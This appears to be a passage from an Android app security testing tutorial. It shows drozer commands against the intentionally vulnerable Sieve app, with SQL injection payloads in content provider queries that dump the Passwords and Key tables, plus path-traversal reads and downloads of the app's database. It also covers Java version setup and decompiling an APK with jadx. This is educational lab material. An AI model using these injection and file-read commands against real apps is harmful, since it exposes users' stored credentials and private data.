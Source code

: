 ```
# database based content URIs
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/--projection "*FROM Key;--"

# filesystem based content URIs
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
dz> run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/abhay/Desktop/database.db
Written 4096 bytes
```

## Java Version

One of the most essentials tools are the Android SDK tools which can be
found once you install <a href="https://developer.android.com/studio">Android Studio</a>. An important thing to keep in mind
is Java versions, I won't go into depth here, but having the wrong version
of Java for the wrong tool might mess things up. So it's good to know how
to keep several Java versions and switch between them when required.

```
# choose java and javac version to use
$ sudo update-alternatives --config java
$ sudo update-alternatives --config javac

# add these lines to your ~/.profile
export JAVA_HOME=/usr/lib/jvm/java-version
export PATH=$PATH:/usr/lib/jvm/java-version/bin
```


## Using IntelliJ IDE

In order to debug the decompiled code, an IDE is helpful to create a
smooth workflow. In this IDE, we can create a new Android project and fill
it with our decompiled code. So first, we will unzip and decompile our APK.

```
$ unzip snake.apk -d snake
$ cd snake
$ jadx -d out classes.dex
$ cd out/sources
```

Once we have the decompiled codes, create an Android project in the IDE
and delete the com.example.app under java sources. then copy the above
folder in its place that we have just cd'ed into. Furthermore, you may
require adjustments to make the code work in harmony.
